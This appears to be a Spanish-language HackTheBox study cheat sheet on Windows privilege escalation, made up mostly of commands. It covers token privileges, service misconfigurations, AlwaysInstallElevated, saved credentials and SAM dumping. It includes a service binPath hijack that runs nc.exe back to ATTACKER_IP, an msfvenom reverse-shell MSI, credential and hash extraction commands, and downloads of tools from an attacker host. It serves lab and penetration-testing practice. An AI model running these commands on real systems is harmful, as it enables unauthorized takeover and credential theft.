

# HTB Windows Privilege Escalation

> [!abstract] TL;DR
> En Windows, privesc suele salir de **privilegios del token**, **servicios mal configurados**, **credenciales guardadas**, **AlwaysInstallElevated**, **tareas programadas**, **rutas escribibles** o **software vulnerable**.

## Flujo rápido



## Snapshot inicial

```cmd
whoami
whoami /priv
whoami /groups
hostname
systeminfo
ipconfig /all
net user
net localgroup administrators
netstat -abno
```

```powershell
Get-ComputerInfo
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember Administrators
Get-NetTCPConnection -State Listen
```

## 1. Privilegios peligrosos

```cmd
whoami /priv
```

Privilegios a mirar:

- `SeImpersonatePrivilege`: Potato, PrintSpoofer, RoguePotato.
- `SeAssignPrimaryTokenPrivilege`: variantes de impersonation.
- `SeBackupPrivilege`: lectura de archivos protegidos, SAM/SYSTEM.
- `SeRestorePrivilege`: escritura privilegiada.
- `SeDebugPrivilege`: acceso a procesos sensibles.
- `SeTakeOwnershipPrivilege`: tomar ownership de archivos/servicios.

Ejemplo de ruta típica con `SeImpersonatePrivilege`:

```cmd
PrintSpoofer.exe -i -c cmd
```

> [!warning]
> Elegí exploit según versión del sistema. JuicyPotato funciona en escenarios antiguos; PrintSpoofer/RoguePotato suelen aparecer en máquinas más modernas.

## 2. Servicios mal configurados

Enumerar servicios:

```cmd
sc query state= all
wmic service get name,displayname,pathname,startmode
```

PowerShell:

```powershell
Get-CimInstance Win32_Service | Select Name,State,StartMode,PathName
```

Buscar permisos débiles:

```cmd
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "%USERNAME%" *
```

Abuso clásico si podés modificar el binario:

```cmd
sc config SERVICE_NAME binPath= "C:\Windows\Temp\nc.exe ATTACKER_IP 4444 -e cmd.exe"
sc stop SERVICE_NAME
sc start SERVICE_NAME
```

## 3. Unquoted service paths

Buscar paths sin comillas:

```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Si el path es:

```text
C:\Program Files\Vulnerable App\service.exe
```

Windows puede intentar:

```text
C:\Program.exe
C:\Program Files\Vulnerable.exe
C:\Program Files\Vulnerable App\service.exe
```

Necesitás poder escribir en una de esas rutas y reiniciar el servicio.

## 4. AlwaysInstallElevated

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Si ambos dan `0x1`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f msi -o privesc.msi
```

En víctima:

```cmd
msiexec /quiet /qn /i C:\Windows\Temp\privesc.msi
```

## 5. Credenciales guardadas

```cmd
cmdkey /list
dir /s /b *pass* *cred* *config* 2>nul
type C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

PowerShell:

```powershell
Get-ChildItem C:\Users -Recurse -Force -ErrorAction SilentlyContinue |
  Select-String -Pattern "password","passwd","pwd","secret","token" -ErrorAction SilentlyContinue
```

Runas con credencial guardada:

```cmd
runas /savecred /user:Administrator cmd.exe
```

## 6. SAM y SYSTEM

Si tenés `SeBackupPrivilege` o permisos suficientes:

```cmd
reg save HKLM\SAM C:\Windows\Temp\SAM
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM
```

En atacante:

```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

## 7. Tareas programadas

```cmd
schtasks /query /fo LIST /v
```

PowerShell:

```powershell
Get-ScheduledTask | Select TaskName,TaskPath,State
```

Buscar scripts o binarios ejecutados como `SYSTEM` que sean escribibles.

## 8. Permisos en directorios

```cmd
icacls "C:\Program Files"
icacls "C:\Program Files (x86)"
icacls C:\ProgramData
icacls C:\Windows\Temp
```

Buscar writable paths:

```powershell
Get-ChildItem "C:\Program Files","C:\Program Files (x86)","C:\ProgramData" -Directory -ErrorAction SilentlyContinue |
  ForEach-Object { icacls $_.FullName 2>$null | Select-String "Everyone|Users|Authenticated Users" }
```

## 9. Software vulnerable

```cmd
wmic product get name,version,vendor
```

PowerShell:

```powershell
Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |
  Select DisplayName,DisplayVersion,Publisher
```

Después:

```bash
searchsploit "Product Version"
```

## 10. UAC

```cmd
whoami /groups
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

Si ya sos admin local pero no high integrity, revisar bypass UAC. Esto no sirve si no pertenecés a un grupo admin.

## Automatización útil

```powershell
iwr http://ATTACKER_IP:8000/winPEASx64.exe -OutFile C:\Windows\Temp\winpeas.exe
C:\Windows\Temp\winpeas.exe
```

```powershell
iwr http://ATTACKER_IP:8000/Seatbelt.exe -OutFile C:\Windows\Temp\Seatbelt.exe
C:\Windows\Temp\Seatbelt.exe -group=system
```

## Checklist

```text
1. whoami /priv muestra SeImpersonate, SeBackup, SeDebug o similares?
2. Pertenezco a grupos interesantes?
3. Hay servicios modificables o unquoted paths explotables?
4. AlwaysInstallElevated está activo en HKCU y HKLM?
5. Hay credenciales en cmdkey, PSReadLine, configs o backups?
6. Hay tareas programadas con archivos escribibles?
7. Hay software vulnerable instalado?
8. Soy admin local pero estoy limitado por UAC?
```

## Referencias

- [[HTB/Enumeration/Windows/cheatsheet|Windows Enumeration]]
- [[Windows built-in tools]]
- [[Windows tools adicionales]]
- LOLBAS
- PayloadsAllTheThings
- HackTricks Windows Privilege Escalation
